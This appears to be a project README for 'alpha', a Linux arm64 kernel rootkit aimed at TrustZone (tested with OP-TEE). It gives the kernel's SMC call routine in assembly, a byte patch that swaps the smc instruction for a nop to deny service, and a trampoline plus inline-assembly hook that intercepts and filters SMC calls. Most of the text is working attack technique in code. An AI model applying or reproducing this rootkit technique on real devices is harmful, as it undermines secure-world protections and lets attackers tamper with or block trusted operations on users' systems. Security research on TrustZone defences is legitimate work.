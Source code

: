 # alpha
alpha is a simple kernel rootkit (Linux arm64) to attack the TrustZone. He erases the smc_handle function of the kernel to hook calls to the SMC instruction. It has been tested with OP-TEE but should work with any other TrustZone implementation.

### __arm_smccc_smc (arch/arm64/kernel/smccc-call.S)   
   
```   
   smc   #0
   ldr   x4, [sp]
   stp   x0, x1, [x4, #ARM_SMCCC_RES_X0_OFFS]
   stp   x2, x3, [x4, #ARM_SMCCC_RES_X2_OFFS]
   ldr   x4, [sp, #8]
   cbz   x4, 1f /* no quirk structure */
   ldr   x9, [x4, #ARM_SMCCC_QUIRK_ID_OFFS]
   cmp   x9, #ARM_SMCCC_QUIRK_QCOM_A6
   b.ne  1f
   str   x6, [x4, ARM_SMCCC_QUIRK_STATE_OFFS]
   ret
```   
   
### DoS (Denial of Service)   
   
It's the easiest way to avoid SMC call. Replace the first instruction of the function:   
```   
03 00 00 d4     smc   #0x0   
```   

With the following instruction:   
```   
d5 03 20 1f     nop      
```   

### Hook 

The purpose of this attack is to insert our routine function in __arm_smccc_smc to filter the SMC call. First step is to jump to our hook function:    
```
   ldr   x8, .+8
   br    x8
   .dword [hook_address]
```

Next, the hook function have to manage the SMC call. We have to re-write the routine that has been erased and put it at the end of our hook function:    
```
   __asm__( "smc #0;"
            "ldr x4, [sp];"
            "stp x0, x1, [x4];"
            "stp x2, x3, [x4,#16];"
            "ldr x4, [sp,#8];"
            "cbz x4, 0x00000028;"
            "ldr x9, [x4];"
            "cmp x9, #0x1;"
            "b.ne 0x00000028;"
            "str x6, [x4,#8];"
            "ret;");
```

### References   

http://infocenter.arm.com/help/topic/com.arm.doc.den0028b/ARM_DEN0028B_SMC_Calling_Convention.pdf   
https://github.com/torvalds/linux/blob/master/include/linux/arm-smccc.h   
https://github.com/torvalds/linux/blob/master/arch/arm64/kernel/smccc-call.S   
